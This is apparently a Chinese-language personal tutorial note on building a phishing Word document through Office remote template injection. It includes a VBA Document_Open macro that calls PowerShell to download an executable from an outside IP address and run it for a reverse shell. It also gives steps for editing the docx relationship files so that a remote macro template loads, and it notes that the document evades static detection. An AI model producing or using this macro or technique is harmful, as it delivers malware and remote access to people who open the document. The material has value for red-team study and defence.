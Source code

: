 # Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)
>
> [利用模板注入攻击关键基础设施 (cisco.com)](https://www.cisco.com/c/dam/m/zh_cn/products/security/talos/template-injection.pdf)
>
> 

- 测试环境: Win10+Office365

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

到这里模板注入的钓鱼文档就制作好了, 但是由于这里外联模板直接填的ip是不受信任的, 因此这里即便打开了也不会正常加载外部模板, 需要添加受信任站点

> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)

打开 `Internet选项->受信任的站点->站点` 添加目标主机即可

![image-20240611103839273](http://cdn.ayusummer233.top/DailyNotes/202406111038830.png)

![image-20240611103954699](http://cdn.ayusummer233.top/DailyNotes/202406111039797.png)

![image-20240611104113796](http://cdn.ayusummer233.top/DailyNotes/202406111041875.png)

---

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)



---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---

